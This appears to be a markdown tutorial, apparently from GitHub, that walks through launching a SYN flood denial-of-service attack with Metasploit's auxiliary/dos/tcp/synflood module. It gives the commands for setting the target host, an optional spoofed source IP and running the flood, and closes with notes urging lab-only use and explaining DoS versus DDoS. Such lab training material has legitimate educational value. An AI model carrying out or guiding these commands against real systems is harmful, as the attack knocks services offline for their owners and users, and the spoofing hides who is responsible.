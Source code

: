 #### **1. Prepare Your Environment**

1. **Target Setup:**
    
    - Identify the target machine's IP address:
        
        ```bash
        ip a
        ```
        
    - Ensure the target machine is reachable from the attacking machine by pinging it:
        
        ```bash
        ping <Target_IP>
        ```
        
2. **Attacker Setup:**
    
    - Start Metasploit Framework:
        
        ```bash
        sudo msfconsole
        ```
        

---

#### **2. Configure the SYN Flood Module**

1. **Load the SYN Flood Module:**
    
    ```bash
    use auxiliary/dos/tcp/synflood
    ```
    
2. **View Available Options:**
    
    ```bash
    show options
    ```
    
    This displays all configurable parameters for the module.
    
3. **Set the Target IP Address (RHOST):**
    
    ```bash
    set RHOST <Target_IP>
    ```
    
    Replace `<Target_IP>` with the IP of the target machine.
    
4. **Optional: Set Source IP (Spoofing):** If you want to spoof the source IP address:
    
    ```bash
    set SHOST <Spoofed_IP>
    ```
---

#### **3. Launch the Attack**

1. **Start the SYN Flood:**
    
    ```bash
    exploit
    ```
    
    - This will start sending a flood of SYN packets to the target IP.
    - Monitor the attack output to see packet generation logs.

---

### **Notes and Considerations**

- **Use in Legal Scenarios:** Ensure you perform this attack only in a controlled lab setup or with explicit permission.
- **DoS vs. DDoS:** This method demonstrates a basic DoS attack. Real-world DDoS attacks typically involve multiple distributed sources.
- **Impact on Target:** A SYN flood can overwhelm the target's connection table, rendering it temporarily unavailable. Be cautious about the resource capacity of the target system.
- **Testing Environment:** Use virtualized setups (e.g., VirtualBox or VMware) with isolated networks to avoid unintended consequences.
---